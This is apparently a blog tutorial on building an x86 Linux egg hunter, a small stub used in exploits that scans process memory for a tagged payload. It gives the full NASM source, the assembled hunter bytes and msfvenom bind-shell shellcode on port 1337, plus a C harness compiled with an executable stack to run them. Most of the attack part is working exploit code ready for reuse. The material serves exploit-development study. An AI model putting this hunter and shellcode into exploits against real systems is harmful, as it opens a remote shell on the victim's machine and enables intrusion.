


#  Egg hunting in Linux x86 Assembly

When writing exploits, you sometimes encounter a situation where your payload is too big, the buffer is to small to fit your payload. This is where "eggs" come in to play. The basic idea of egg hunting is to divide the payload in to two parts, part one is the hunter while part two is the hunted (the egg). The hunter is a set of instructions that searches the program's virtual address space for a given pattern/tag/key (the egg). Once it is found, the hunter will jump to the payload following the key.

The egg can sometimes be referred to as key, tag or pattern. The payload is formatted as `<egg><egg><shellcode>`. The egg is specified twice in order to reduce collisions. If your egg is only four bytes, it could be possible that there exists an instruction that is the same as your egg. Another possibility is that you encounter the egg that you have instructed to look for. Therefore, if you specify the egg twice, you can be sure that is the real egg.

Before continuing this article, I will briefly try to explain a few concepts needed for understanding how egg hunting works. If you already know all about page sizes and virtual address spaces, feel free to skip to **Hunting time**.

When researching about egg hunters, I stumbled upon this article [http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) written by skape back in 2004. Much of this article is based on his research.

### Virtual Address Space

The purpose of an egg hunter is to search for a given egg/tag/key/pattern. The program that searches for this key will search virtual address space (VAS) of a given process. This process is usually the process which your payload gets injected into.

Before I explain what the VAS is, let's look at the memory layout of a linux process. Table 1 visualizes how the memory layout looks like.

| Process Memory layout |
| --------------------- |
| Kernel Space          |
| Stack                 |
| Shared Libs + Mappings|
| Heap                  |
| BSS                   |
| Data                  |
| Text                  |

Table 1: Memory layout of a process

This is how programs are structured. For example, the `Text` segment contains the assembly instructions, the `Data` segment contains initialized global and static variables, and the `BSS` segment contains uninitialized variables.

However, these segments can be spread out when looking at the physical memory address space, meaning the RAM. So how does your operating system know where a segment is and which segments belongs to the correct process? You most likely have multiple programs running at any given time.

This is where the virtual address space comes into play. When you execute a process, your operating system assigns a virtual address space for your process. This not only isolates the process from other running processes, but also tricks the process into thinking that there only exists one space and that the process occupies it. This can be visualized in figure 1:




<p align="center">**Figure 1: Virtual address space vs Physical address space. [1]**</p>

The CPU will in turn convert a virtual address to a physical address in order to perform its operations. But wait! There's more :) To make things easier, the virtual and physical address space is further divided into `pages`. More on this in the next section.

### Pages of memory

A page refers to a block of memory of a predefined size. In Linux, it is possible to obtain the page size by running `getconf PAGE_SIZE`. On most x86 Linux systems, the page size is 4096 bytes. Why does this matter for an egg hunter? Well, this information will greatly improve the performance of our search algorithm. Why, you may ask? When allocating memory, the OS will allocate blocks of PAGE_SIZE, which is 4096 bytes. The virtual addresses in each allocated page will be mapped to a physical address. However, there will be virtual addresses that are unmapped, these are invalid addresses. If we can easily skip invalid pages, meaning unmapped blocks of addresses, we can greatly reduce the search time. How this is done is explained in the next section.

## Hunting time

Now it's time to build our egg hunter!

### The algorithm
The search algorithm for our hunter will look something like this (pseudo code):
```
egg = "0x41424344"*2
pages = page[]
found = ""
for page in pages:
    if page is readable:
        for address in page:
            if address.startswith(egg)
                 # found the egg
                 found = address
                 break
jump.to(found+8)
```

To summarize our algorithm:

1. Iterate through each available page
2. If page is valid, start comparing values in addresses with egg value. If page is invalid, go to step 1
3. If egg is found, jump to [address+8] which is our shellcode
4. If no egg is found, go to step 1

### The Assembly

When reading skape's paper, the author details a few methods for validating an address without crashing the program. One of those methods is using syscalls, specifically the `access` syscall which checks a user's permission for a given file.

The syscall number for `access` can be found in `/usr/include/i386-linux-gnu/asm/unistd_32.h`:

```
[...]
#define __NR_access 33
[...]
```

Let's check what the man pages say about `access()`

```
ACCESS(2)                                     Linux Programmer's Manual                                     ACCESS(2)

NAME
       access - check real user's permissions for a file

SYNOPSIS
       #include <unistd.h>

       int access(const char *pathname, int mode);

DESCRIPTION
       access()  checks whether the calling process can access the file pathname.  If pathname is a symbolic link, it
       is dereferenced.

       The mode specifies the accessibility check(s) to be performed, and is either the value F_OK, or  a  mask  con
       sisting  of  the bitwise OR of one or more of R_OK, W_OK, and X_OK.  F_OK tests for the existence of the file.
       R_OK, W_OK, and X_OK test whether the file exists and grants read, write,  and  execute  permissions,  respec
       tively.

       [...]
 
RETURN VALUE
       On success (all requested permissions granted), zero is returned.  On error (at least one bit  in  mode  asked
       for  a  permission  that  is denied, or some other error occurred), -1 is returned, and errno is set appropri
       ately.

ERRORS
       access() shall fail if:
       
        EACCES The requested access would be denied to the file, or search permission is denied for one of the  direc
              tories in the path prefix of pathname.  (See also path_resolution(7).)

       [...]

       access() may fail if:

        EFAULT pathname points outside your accessible address space.

       [...]
```

The error code we are interested in is `EFAULT` because it will indicate if the address that is being checked is valid or not, without crashing the program.

Let's start writing code! The following section zeros out registers and places our egg in ebx:

```nasm
global _start

section .text

_start:
    mov ebx, 0xdeadbeef     ; 4 byte egg
    xor ecx, ecx            ; Zero out ecx
    mul ecx                 ; edx, eax = eax * 0 -> Zero out edx and eax
```

Next part performs an OR operation between the lower-end of edx and 0xfff. This is equivalent of adding 0x1000 (PAGE_SIZE) to edx

```nasm
inc_page:
    or dx, 0xfff            ; PAGE_SIZE -> The OR operation gets the next page
```

Next we will perform a system call to access() with the first parameter being the address we want to check and the second parameter being 0. When performing syscalls, the registers can be used as the following:

| Register | Purpose |
| -------- | -------
| eax      | System call number |
| ebx      | First parameter |
| ecx      | Second parameter |
| edx      | Third parameter |
| esi      | Fourth parameter |
| edi      | Fifth parameter |

```nasm
check_address:
    inc edx                 ; Increment edx
    pushad                  ; Preserve current registers by pushing them to the stack
    lea ebx, [edx+4]        ; Load the effective address at edx + 4 bytes
    mov al, 0x21            ; __NR_access 33
    int 0x80                ; Interrupt the kernel to run our syscall
```

The last part involves checking if we have found our egg or not. If don't find we restart from the beginning until we find it.

```nasm
    cmp al, 0xf2            ; Check if we go error when reading addr in page
    popad                   ; restore the original registers
    jz inc_page             ; If we got error, increment page and restart from the beginning

    cmp [edx], ebx          ; Does the value stored at $edx correspond to our egg?
    jnz check_address       ; If not, jump back to check_address and check the next address

    cmp [edx+0x4], ebx      ; Does the next 4 byte value also equal our egg? If so, we have found it!
    jnz check_address       ; If not, jump back to check_address and check the next address

    lea ebx, [edx+0x8]      ; Load the correct address containing the start of our shellcode
    jmp ebx                 ; jump to shellcode!
```

I modified the code to load the effective address at `[edx+8]` and jump to that once the egg has been found. This is because my egg is not executable, therefore I must jump directly to the shellcode. If a different egg was chosen that is executable, e.g. `0x50905090`, then this extra step could be skipped.

### Final code

```nasm
global _start

section .text

_start:
    mov ebx, 0xdeadbeef     ; 4 byte egg
    xor ecx, ecx            ; Zero out ecx
    mul ecx                 ; edx, eax = eax * 0 -> Zero out edx and eax

inc_page:
    or dx, 0xfff            ; PAGE_SIZE -> The OR operation gets the next page

check_address:
    inc edx                 ; Increment edx
    pushad                  ; Preserve current registers by pushing them to the stack
    lea ebx, [edx+4]        ; Load the effective address at edx + 4 bytes
    mov al, 0x21            ; __NR_access 33
    int 0x80                ; Interrupt the kernel to run our syscall

    cmp al, 0xf2            ; Check if we go error when reading addr in page
    popad                   ; restore the original registers
    jz inc_page             ; If we got error, increment page and restart from the beginning

    cmp [edx], ebx          ; Does the value stored at $edx correspond to our egg?
    jnz check_address       ; If not, jump back to check_address and check the next address

    cmp [edx+0x4], ebx      ; Does the next 4 byte value also equal our egg? If so, we have found it!
    jnz check_address       ; If not, jump back to check_address and check the next address

    lea ebx, [edx+0x8]      ; Load the correct address containing the start of our shellcode
    jmp ebx                 ; jump to shellcode!
```

## Testing our egg hunter!

In order to test our egg hunter, we can quickly generate some shellcode with `msfvenom`:

```
dubs3c@slae:~$ msfvenom -p linux/x86/shell_bind_tcp lport=1337 -f c -a x86 --platform=linux
No encoder specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x05\x39\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

Now we can create a program that will execute our egg hunter and hopefully find our shellcode generated by msfvenom. I have specified the egg twice as prefix to the shellcode `\xef\xbe\xad\xde\xef\xbe\xad\xde`.

```c
#include<stdio.h>
#include<string.h>

unsigned char hunter[] = "\xbb\xef\xbe\xad\xde\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\x8d\x5a\x08\xff\xe3";

unsigned char shellcode[] = \
        "\xef\xbe\xad\xde\xef\xbe\xad\xde"
        "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
        "\x5b\x5e\x52\x68\x02\x00\x05\x39\x6a\x10\x51\x50\x89\xe1\x6a"
        "\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
        "\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
        "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
        "\x0b\xcd\x80";

main()
{

    printf("Egg hunter length: %d\n", strlen(hunter));
    printf("Shellcode length:  %d\n", strlen(shellcode));
    int (*ret)() = (int(*)())hunter;
    ret();
}
```

Compiling with `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode` and running `./shellcode` yields the following result:

<div align="center">

</div>

Yay it works!

## Making the process configurable

## References
[1] [https://commons.wikimedia.org/wiki/File:Virtual_address_space_and_physical_address_space_relationship.svg](https://commons.wikimedia.org/wiki/File:Virtual_address_space_and_physical_address_space_relationship.svg)

